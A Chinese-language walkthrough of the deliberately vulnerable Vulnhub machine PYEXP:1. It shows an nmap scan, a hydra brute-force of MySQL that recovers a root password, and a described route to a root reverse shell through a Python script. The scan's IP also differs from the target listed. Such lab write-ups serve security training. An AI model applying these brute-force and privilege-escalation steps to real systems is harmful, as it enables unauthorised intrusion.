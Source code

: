 ```yaml
---
layer: article
title: Vulnhub 534 PYEXP-1
tags: pentest vulnhub Walkthrough
---
```


考点：hydra,python

靶机链接：<https://www.vulnhub.com/entry/pyexp-1,534/>
## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.24 |
| PYEXP: 1 | 10.0.2.27 |


## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.110
$ sudo nmap -v -A -p- $rip
PORT     STATE SERVICE VERSION
1337/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 f7:af:6c:d1:26:94:dc:e5:1a:22:1a:64:4e:1c:34:a9 (RSA)
|   256 46:d2:8d:bd:2f:9e:af:ce:e2:45:5c:a6:12:c0:d9:19 (ECDSA)
|_  256 8d:11:ed:ff:7d:c5:a7:24:99:22:7f:ce:29:88:b2:4a (ED25519)
3306/tcp open  mysql   MySQL 5.5.5-10.3.23-MariaDB-0+deb10u1
|_sslv2: ERROR: Script execution failed (use -d to debug)
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.23-MariaDB-0+deb10u1
|   Thread ID: 38
|   Capabilities flags: 63486
|   Some Capabilities: Speaks41ProtocolOld, Support41Auth, SupportsTransactions, IgnoreSigpipes, ODBCClient, IgnoreSpaceBeforeParenthesis, LongColumnFlag, ConnectWithDatabase, SupportsLoadDataLocal, InteractiveClient, Speaks41ProtocolNew, SupportsCompression, DontAllowDatabaseTableColumn, FoundRows, SupportsAuthPlugins, SupportsMultipleResults, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: BwQo[X([tV0.5]X#A`>V
|_  Auth Plugin Name: mysql_native_password
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)

```

这就尴尬了，只有ssh和mysql

### 漏洞发现

先爆破mysql吧

```bash
$ hydra -L user -P /usr/share/wordlists/rockyou.txt -f 10.0.2.27 mysql    
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking mysql://10.0.2.27:3306/
[3306][mysql] host: 10.0.2.27   login: root   password: prettywoman

```

![1](https://static.iihack.com/vulnhub/534/1.jpg)

使用在线[fernet算法解密](https://asecuritysite.com/encryption/ferdecode)

![2](https://static.iihack.com/vulnhub/534/2.jpg)

获得用户名密码

## 获得权限

使用获得的用户名密码登录成功

![3](https://static.iihack.com/vulnhub/534/3.jpg)

## 提权

看来利用点是在exp.py这里了

![4](https://static.iihack.com/vulnhub/534/4.jpg)

查看代码，构造python利用

![5](https://static.iihack.com/vulnhub/534/5.jpg)

成功接收root权限反弹shell
